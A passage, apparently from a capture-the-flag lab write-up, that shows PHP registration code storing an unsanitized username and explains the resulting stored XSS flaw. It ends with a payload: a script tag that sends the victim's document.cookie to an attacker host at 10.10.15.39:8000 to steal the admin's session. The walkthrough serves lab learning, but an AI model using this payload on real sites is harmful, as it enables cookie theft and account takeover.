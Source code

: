 ```js
        $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);

        if ($stmt_insert) {
            $success_message = "Registration successful!";
        } else {
            $error_message = "Error: Unable to register user.";
        }
    }
}
```

This is where the magic relies, this is vulnerable to XSS, The vulnerable code is in the registration handling where theÂ `username`Â parameter is directly taken from the user input (`$_GET['username']`) and stored in the databaseÂ **without sanitization**.

```js
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username']; //No sanitization here
```

This allows an attacker to inject malicious scripts into theÂ `username`Â field, which will execute when the username is later displayed on a page that renders it without proper escaping. This means we can try creating a test account to steal the admin's cookie.

Let's begin exploitation.


# EXPLOITATION
---

We can create a malicious username:


```
<script>document.location='http://10.10.15.39:8000/?c='+document.cookie;</script>
```



